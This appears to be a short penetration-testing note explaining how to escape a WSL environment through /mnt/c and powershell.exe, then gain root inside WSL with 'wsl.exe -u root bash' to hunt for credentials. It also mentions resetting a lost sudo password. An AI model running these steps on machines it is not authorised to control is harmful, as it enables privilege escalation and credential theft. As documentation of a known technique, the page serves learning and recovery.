 Here is a trick I found that I've ~~never~~ used but is still interesting.&#x20;

{% hint style="info" %}
**Update**: Since finding it I have used it to help ~~someone~~ 3 people recover their WSL `sudo` password! When you have a `root` shell with the trick explained below, use \
`passwd [username]` to set a new password
{% endhint %}

If you ever find yourself on a target machine in a WSL environment, you can easily escape it by using the `/mnt` directory that points to the real drives with Windows programs. You can even run Windows `.exe` programs from within WSL, such as `powershell.exe`!

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ powershell.exe
</strong># # OR
<strong>$ /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe
</strong>
PS Microsoft.PowerShell.Core\FileSystem::\\wsl.localhost\...> whoami
hostname\user
</code></pre>

This first allows you to escape WSL into the normal user of the system, then it becomes a Windows game. If for any reason you want to then become the `root` user in WSL to find credentials or otherwise interesting stuff, you can use `wsl.exe -u root` from the Windows shell you got in order to execute the command as root.&#x20;

<pre class="language-shell-session"><code class="lang-shell-session">$ id
uid=1001(user) gid=1001(user) groups=1001(user)
<strong>$ /mnt/c/Windows/System32/WindowsPowerShell/v1.0/powershell.exe 'wsl.exe -u root bash'
</strong># id
uid=0(root) gid=0(root) groups=0(root)
</code></pre>
